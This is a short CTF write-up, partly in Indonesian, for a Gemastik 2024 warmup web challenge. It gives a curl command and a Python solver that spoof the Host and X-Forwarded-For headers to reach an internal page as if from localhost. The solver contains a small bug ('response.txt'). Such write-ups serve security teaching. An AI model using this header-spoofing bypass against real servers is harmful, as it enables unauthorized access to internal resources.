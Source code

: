```yaml
---
description: Gemastik CTF 2024 (UNNES) warmup writeup.
icon: fire
cover: >-
  https://images.unsplash.com/photo-1597733336794-12d05021d510?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwzfHxuZXR3b3JrfGVufDB8fHx8MTc0MDg3NTc3Mnww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# Warmup

## 1. Internal Page (Web - Easy)

### 1.1. Description

* Basically, challenge ini seperti judulnya, yaitu pemanasan dengan melakukan request ke internal domain dari website challenge gemastik.
* Dengan tambahan HTTP header `X-Forwarded-For`, kita bisa memanipulasi request supaya bisa seolah-olah request dari localhost.

### 1.2. POC using cURL

{% code overflow="wrap" %}
```bash
curl -H "Host: internal.gemastik" -H "X-Forwarded-For: 127.0.0.1" ctf.gemastik.id:9005
```
{% endcode %}

### 1.3. POC using Python

{% code title="solver.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/local/python/3.13.1/bin/python3.13.1

import requests

URL: str = "http://ctf.gemastik.id:9005"
headers: dict = {"Host": "internal.gemastik.puspresnas.go.id", "X-Forwarded-For": "127.0.0.1"}

response: str = requests.get(URL, headers=headers)
status_code: int = response.status_code
if status_code == 200:
	print(response.txt)
	print(response.headers)
else:
	print("Failed!")
```
{% endcode %}

## Other Warmup Challenges

All warmup challenges can be see at the following url:

[https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN](https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN)

***

**Tags**: #ctf, #web-exploitation, #warmup
